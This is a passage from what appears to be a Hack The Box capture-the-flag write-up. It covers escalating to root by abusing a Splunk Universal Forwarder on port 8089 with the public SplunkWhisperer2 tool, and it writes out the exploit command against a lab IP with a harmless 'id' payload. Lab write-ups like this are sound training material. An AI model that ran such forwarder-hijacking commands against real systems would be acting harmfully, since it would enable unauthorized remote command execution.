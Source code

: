 ### Revisiting Splunk for Root Escalation

During our initial Nmap scan, we noticed Splunk running on port 8089. Splunk has a management interface that might allow command execution if we have valid credentials. First, verify Splunk is running:

`ps aux | grep splunk`

* `ps aux` displays all running processes.
* `grep splunk` filters the list to show only lines containing "splunk."

<figure><img src="../../.gitbook/assets/grep-splunk-proc.png" alt=""><figcaption></figcaption></figure>



Splunk is indeed active.

A quick Google search led me to this page:

[SplunkWhisperer2 - Splunk Universal Forwarder Hijacking](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/)

And the GitHub repo for the tool:

[SplunkWhisperer2 GitHub](https://github.com/cnotin/SplunkWhisperer2)

If you’ve never done a box like this before, don’t be surprised if you need to download extra tools that weren’t in your original game plan. That’s normal in both CTFs and real-world pentesting. The more tools you get comfortable with, the better.

One issue I ran into—HTB’s VPN connection was **blocking** my download from GitHub. If you have the same problem, just **disconnect from the VPN, download the tool, and reconnect**.

***

#### Exploiting Splunk Universal Forwarder

We attempt a simple command:

`python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.38 --payload id`

<figure><img src="../../.gitbook/assets/pySplunkError (1).png" alt=""><figcaption></figcaption></figure>
